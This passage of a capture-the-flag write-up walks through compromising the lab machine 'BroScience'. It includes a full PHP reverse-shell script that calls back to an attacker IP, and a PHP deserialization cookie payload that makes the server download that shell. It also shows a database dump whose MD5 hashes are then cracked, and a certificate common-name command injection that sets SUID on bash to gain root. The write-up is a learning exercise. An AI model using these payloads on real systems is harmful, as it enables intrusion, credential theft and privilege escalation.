Luckily for us, the documentation for [file_get_contents](https://www.php.net/manual/en/function.file-get-contents.php) shows that the file can be local or a URI.  Let's serve up a PHP reverse shell, and see if we can serialize an `AvatarInterface` so the server will download and store the file, allowing us to execute arbitrary php to gain a foothold..

Here's our PHP script to execute arbitrary commands, named `my-cmd.php` (taken from pentest monkey):

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.17';
$port = 3322;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

We serve this up with `python -m http.server 8000`  (easier and means our own local PHP interpreter won't run the code locally) -- and here is our PHP script to generate our new `user-prefs` cookie value:

```php
<?php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

$avatar_interface_obj = new AvatarInterface;
$avatar_interface_obj->tmp = "http://10.10.14.17:8000/my-cmd.php";
$avatar_interface_obj->imgPath = "/var/www/html/my-cmd.php";

$avatar_interface_str = serialize($avatar_interface_obj);
print "Serialized string for AvatarInterface obj: " . $avatar_interface_str . "\n";

$avatar_interface_base64_str = base64_encode($avatar_interface_str);
print "Base64 encoded string for serialized AvatarInterface string: " . $avatar_interface_base64_str . "\n";

?>
```

Here's the output of our script showing the serialized `AvatarInterface` object and the base64 encoded string:

```bash
$php test.php 
Serialized string for AvatarInterface obj: O:15:"AvatarInterface":2:{s:3:"tmp";s:34:"http://10.10.14.17:8000/my-cmd.php";s:7:"imgPath";s:24:"/var/www/html/my-cmd.php";}

Base64 encoded string for serialized AvatarInterface string: TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czozNDoiaHR0cDovLzEwLjEwLjE0LjE3OjgwMDAvbXktY21kLnBocCI7czo3OiJpbWdQYXRoIjtzOjI0OiIvdmFyL3d3dy9odG1sL215LWNtZC5waHAiO30=
```

After putting the base64 string in `user-prefs` cookie and reloading https://broscience.htb/index.php -- we see the server has downloaded our `my-cmd.php` reverse shell file from the ad-hoc python web server running on my machine!:

```bash
$python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.195 - - [29/Jan/2023 14:00:47] "GET /my-cmd.php HTTP/1.0" 200 -
```

Let's browse to http://broscience.htb/my-cmd.php, and hopefully we should trigger our PHP file in the PHP server's interpreter, obtaining a reverse shell:

```bash
$nc -lvnp 3322
listening on [any] 3322 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.195] 54758
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64 GNU/Linux
 22:00:58 up 1 day, 21:27,  0 users,  load average: 0.00, 0.02, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (833): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$
bash-5.1$ cat /home/bill/user.txt
cat /home/bill/user.txt
cat: /home/bill/user.txt: Permission denied
```

We have a foothold!!.. but can't read the user flag yet.  Damn.  We know from `includes/db_connect.php` the web app has a hard-coded connection string with credentials.  So let's see if we can create a new php file to connect to postgres and dump the users table..  I saved this into `/var/html/www/db.php`:

```php
<?php
include_once 'includes/db_connect.php';

$result = pg_query($db_conn, "SELECT id, username, password FROM users");
if (!$result) {
	echo "An error occurred.\n";
	exit;
}

while ($row = pg_fetch_row($result)) {
	  echo "id: $row[0], username: $row[1], password: $row[2]";
	    echo "<br />\n";
}
?>
```

Running it gives us a dump of users and password hashes. Yay!:

```bash
bash-5.1$ php db.php 
id: 1, username: administrator, password: 15657792073e8a843d4f91fc403454e1<br />
id: 2, username: bill, password: 13edad4932da9dbb57d9cd15b66ed104<br />
id: 3, username: michael, password: bd3dad50e2d578ecba87d5fa15ca5f85<br />
id: 4, username: john, password: a7eed23a7be6fe0d765197b1027453fe<br />
id: 5, username: dmytro, password: 5d15340bded5b9395d5d14b9c21bc82b<br />
id: 233, username: aaa, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 239, username: aaa'or'0, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 240, username: myuser, password: 876a42b400bcc73f92243010a0bb8978<br />
id: 246, username: myuser2, password: 876a42b400bcc73f92243010a0bb8978<br />
id: 247, username: 4567, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 86, username: x, password: 6d91921f04e89b1c6760df9b12b7ac1f<br />
id: 201, username: admin, password: 3b82b44090ee0a14e0f24172788e0bb8<br />
id: 258, username: 9999, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 147, username: test, password: 84c6e0688b2ef52ff1aeb922196d4e5a<br />
id: 264, username: 564, password: b2fc457a3f98256a392ff634ec615fc9<br />
id: 265, username: me@user.com, password: 8f864e441b88a597a2264551d1bfa831<br />
id: 159, username: testy, password: 2197435d3760c0397cf088552a4845bd<br />
id: 266, username: mycooluser, password: d80031863eb94bb355f5a04f415a315f<br />
id: 148, username: test2, password: 84c6e0688b2ef52ff1aeb922196d4e5a<br />
id: 170, username: tefbcb, password: 2197435d3760c0397cf088552a4845bd<br />
```

Note our user flag is in `/home/bill/user.txt`, and there is a database user for the web-app also named bill - so maybe/likely the same user, and perhaps they reused their password?

As a reminder, our password hashing function is `md5(db_salt . _POST['password'])`, so we use mode 20 within hashcat:

```bash
# Get the passwords above, and redirect to hashes.txt with our NaCl salt
$pcregrep -o1 "password:\s(\w+)" users.txt |sed -e 's/$/:NaCl/' > hashes.txt

$hashcat -a 0 -m 20 hashes.txt /usr/share/wordlists/rockyou.txt
```

It looks like we've cracked several!:
```
3b82b44090ee0a14e0f24172788e0bb8:NaCl:123456     
b2fc457a3f98256a392ff634ec615fc9:NaCl:123456789  
8f864e441b88a597a2264551d1bfa831:NaCl:aaaa       
d80031863eb94bb355f5a04f415a315f:NaCl:foobar     
84c6e0688b2ef52ff1aeb922196d4e5a:NaCl:test       
876a42b400bcc73f92243010a0bb8978:NaCl:foo        
6d91921f04e89b1c6760df9b12b7ac1f:NaCl:x          
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
```

We got the password for username bill - `iluvhorsesandgym` - and we can SSH in, meaning we have the user flag!:

```bash
ssh bill@broscience.htb
The authenticity of host 'broscience.htb (10.10.11.195)' can't be established.
ECDSA key fingerprint is SHA256:JGqMGEJRnLW3UdbkJFqzfa85qofae/pCqt15bo+0i0Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'broscience.htb,10.10.11.195' (ECDSA) to the list of known hosts.
bill@broscience.htb's password: 
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64

bash-5.1$ cat user.txt 
06128ae10344ecec8c2ae1def2bd67a8
```

## Privilege Escalation

Initially, I tried:

* looking for setuid binaries
* checking the shell environment
* running LinPEAS
* browsing the file system `/opt/renew_cert.sh` was the only thing that stood out as unusual

I finally ran `pspy64 -r /tmp` to monitor `/tmp` , as the above script writes a new SSL certificate here.  Here is the full script:

```bash
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
```

Here's what process spy shows us:

```
2023/01/29 01:58:01 CMD: UID=0     PID=104166 | /usr/sbin/CRON -f 
2023/01/29 01:58:01 CMD: UID=0     PID=104170 | /bin/bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/01/29 01:58:01 CMD: UID=0     PID=104169 | timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/01/29 01:58:01 CMD: UID=0     PID=104168 | /bin/bash /root/cron.sh 
2023/01/29 01:58:01 CMD: UID=0     PID=104167 | /bin/sh -c /root/cron.sh 
2023/01/29 01:58:01 CMD: UID=0     PID=104171 | /usr/bin/rm -r /home/bill/Certs/* 
2023/01/29 01:58:01 CMD: UID=0     PID=104172 | /usr/bin/rm -r /home/bill/Certs/. /home/bill/Certs/.. 
```

So based on the bash script and pspy output above - the following appears to happen:

1. a cron job runs, passing the file path `/home/bill/Certs/broscience.crt` to `/opt/renew_cert.sh`
2. if the file exists, the script runs `openssl x509 -in $1 -noout -checkend 86400 > /dev/null`
3. the script exits on a zero response (i.e. cert hasn't expired).
4. Otherwise, we extract the subject from the certificate file with `openssl x509 -in $1 -noout -subject | cut -d "=" -f2-`
5. We extract out other cert information
6. we use openssl to generate a new certificate to `/tmp/temp.crt`
7. We copy the temp cert back to `/home/bill/Certs/$commonName.crt` with `/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"`

I took a copy of the above script to play around with locally, and tried command injection on a certificate until I found the common name field works -- here, we set a cert with 1 day expiry, and do command substitution of `$(id)` for common name, which we can see runs when the renew script executes:

```bash
$openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 1
Generating a RSA private key
.........................................++++
.........................................................................................................................++++
writing new private key to '/tmp/temp.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:AU
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(id)
Email Address []:

$/bin/bash renew_cert.sh /tmp/temp.crt 
C = AU, ST = Some-State, O = Internet Widgits Pty Ltd, CN = $(id)

Country     => AU
State       => Some-State
Locality    => 
Org Name    => Internet Widgits Pty Ltd
Org Unit    => 
Common Name => $(id)
Email       => 

Generating certificate...
mv: target 'groups=1003(zara),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),119(bluetooth),128(vboxsf),1000(lpadmin),1001(scanner),1002(docker).crt' is not a directory

```

So, we can command inject into this line of the recurring script:

```bash
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
```

Rather than having to create another reverse shell, I just set uid on `/usr/bin/bash` and ran it as root:

```bash
$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out broscience.crt -days 1
Generating a RSA private key
................................................................................................................................................................................................................................................................................++++
.......................................................................................................................................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(sudo chmod +s /usr/bin/bash)
Email Address []:

```

Let's create our cert on the machine now with the above command injection, and see if we get a new SUID copy of bash:

```bash
bash-5.1$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out /home/bill/Certs/broscience.crt -days 1
Generating a RSA private key
......................................................................................++++
....................................................................................................................................++++
writing new private key to '/home/bill/Certs/broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(sudo chmod +s /usr/bin/bash)
Email Address []:
```

We see the following in pspy -- our command to add the SetUID bit to bash running as UID=0 (root):

```bash
2023/01/29 04:10:03 CMD: UID=0     PID=106162 | /bin/bash /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/01/29 04:10:03 CMD: UID=0     PID=106163 | sudo chmod +s /usr/bin/bash 
```

And it looks like we can now run bash while maintaining elevated privileges -- which means we get the root flag!:

```bash
bash-5.1$ /usr/bin/bash -p
bash-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) groups=1000(bill)
bash-5.1# cat /root/root.txt 
8d5e0e3f4363a6658c468f128532b915
```

## Conclusion

Initial LFI and filter bypass was fairly obvious when enumerating given the 'Error: attack detected' error messages the web server was returning.  I definitely lost a reasonable amount of time trying to work out how to register and activate a user, and somehow overlooked the `srand(time());` call to seed randomness from the current time -- a new attack I had not encountered until now in CTFs.  Additionally, PHP object injection was entirely new to me, and I misunderstood the serialisation/deserialisation process until I played with the relevant code locally.  With RCE out of the way, escalating to the bill user account was easy, and the subsequent escalation to root was also fairly straight forward once I again played with the vulnerable script locally and crafted a payload.

A fun machine where the path was not too unclear and I avoided rabbit holes, but learnt to slow down and understand concepts first.  Playing with vulnerable scripts and replicating bugs/attacks locally is hugely beneficial in this regard.